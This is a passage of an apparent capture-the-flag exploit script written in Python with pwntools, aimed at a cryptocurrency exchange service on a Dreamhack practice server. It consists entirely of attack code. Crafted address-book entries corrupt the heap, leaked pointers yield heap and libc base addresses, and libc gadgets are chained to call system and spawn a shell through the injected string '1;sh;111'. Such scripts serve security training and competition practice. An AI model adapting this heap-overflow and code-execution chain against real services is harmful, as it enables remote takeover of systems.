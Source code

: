 ```py
        ExchangeClass.add_addressbook("XRP", b"MYADDRESS", b"123123", str(i+2))

    ExchangeClass.add_addressbook("XRP", b"A"*0x80+p16(0x31b0+8), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p16(0x1000), b"memo")


    # db('')
    try:
        UserClass.myinfo()
        s.recvuntil('Username: ')
        data = s.recv(0x30)
        print(data)
        if b'Amount' in data:
            raise
    except:
        s.close()
        # s = connect('localhost', PROTOSS_PORT)
        s = connect('host3.dreamhack.games', DREAMHACK_PORT)
        continue


    leak = s.recv(6).ljust(8, b'\x00')
    if REMOTE:
        heap = u64(leak) - 0x113370
        heap -= 0x9100 # remote offset
        log.info(f"heap: {hex(heap)}")

        libc = u64(s.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) + 0xa7b20
        log.info(f"libc: {hex(libc)}")
    else:
        libc = u64(leak) + 0xea0e8
        log.info(f"libc: {hex(libc)}")
        s.recv(0x10+2)
        leak = s.recv(6).ljust(8, b'\x00')
        heap = u64(leak) - 0x112e70
        log.info(f"heap: {hex(heap)}")

    context.log_level = 'debug'
    system = libc + l.symbols['system']
    binsh = libc + next(l.search(b'/bin/sh'))
    log.info(f"system: {hex(system)}")
    log.info(f"binsh: {hex(binsh)}")

    user = heap + 0x191a0
    system_heap = user + 0x100
    log.info(f'user: {hex(user)}')
    log.info(f'system_heap: {hex(system_heap)}')

    cmd = b"1;sh;111"
    # 0x94924: detected sql injection: chr(0x24)
    gadget = libc + 0x0000000000094926 # : add BYTE PTR [rax],al ; mov rdi, qword ptr [rbx + 0x648] ; call qword ptr [rbx + 0x640]
    gadget2 = libc + 0x000000000008fff4 # : call qword ptr [rbx + 0x360] # stack pivoting

    ExchangeClass.add_addressbook("XRP", b"A"*0x100 + p64(gadget), b"123123", str(i+2))
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user).strip(b'\x00'), b"123123", str(i+2))
    ExchangeClass.modify_addressbook("-1", b"MYADDRESS", p64(system_heap-0x8).strip(b'\x00'), b"memo")

    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x360 - 0x10).strip(b'\x00')+b"A", b"123123", str(i+2)) # null prevention
    ExchangeClass.add_addressbook("XRP", b"C"*0x80+p64(user+0x360 - 0x10).strip(b'\x00'), b"123123", str(i+2)) # null prevention
```
